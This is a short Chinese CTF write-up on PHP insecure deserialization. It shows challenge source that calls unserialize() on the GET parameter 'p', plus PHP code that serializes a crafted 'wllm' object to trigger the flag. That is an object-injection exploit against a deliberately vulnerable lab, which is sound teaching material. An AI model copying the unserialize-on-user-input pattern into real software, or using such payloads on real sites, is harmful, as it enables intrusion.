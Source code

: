 # 反序列化

## 提示

<!--
User-agent: *
Disallow: 什么东西呢？
-->
这东西指向robots.txt

直接路径访问即可

获取关键信息: /cl45s.php

内容如下:

## php源码

```php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm
{

    public $admin;
    public $passwd;

    public function __construct()
    {
        $this->admin = "user";
        $this->passwd = "123456";
    }

    public function __destruct()
    {
        if ($this->admin === "admin" && $this->passwd === "ctf") {
            include ("flag.php");
            echo $flag;
        } else {
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```

因此同样构造一个类, 然后序列化, 然后url编码; (有一些不可见字符可能丢失;)

```php

<?php
class wllm {
    public $admin;
    public $passwd;

    public function __construct($admin, $passwd) {
        $this->admin = $admin;
        $this->passwd = $passwd;
    }
}

// 创建 wllm 类的实例并设置属性
$instance = new wllm("admin", "ctf");

// 序列化实例
$serialized = serialize($instance);

// 输出序列化字符串
echo $serialized;
?>
